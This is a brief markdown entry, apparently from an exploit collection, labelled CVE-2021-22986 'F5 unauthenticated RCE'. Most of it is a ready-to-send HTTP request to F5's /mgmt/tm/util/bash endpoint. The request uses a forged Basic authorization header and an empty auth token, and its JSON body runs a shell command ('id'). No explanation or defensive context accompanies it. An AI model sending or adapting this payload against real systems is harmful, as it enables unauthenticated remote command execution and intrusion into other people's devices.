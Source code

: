 ### CVE-2021-22986
F5  unauthenticated RCE
```
POST /mgmt/tm/util/bash HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0)
Accept: */*
Connection: close
Authorization: Basic YWRtaW46
X-F5-Auth-Token: 
Content-Length: 46
Content-Type: application/json

{"command": "run", "utilCmdArgs": "-c id"}

```

![img](https://mmbiz.qlogo.cn/mmbiz_png/MZzibwD3j5oEFibdNlG58ZKEibTy9m08uAibrXQeM8k3nysbqTWLibXOlUzSsYTcdEXrGV3UXh8QLPOqsI1D7PbNdYg/0?wx_fmt=png)

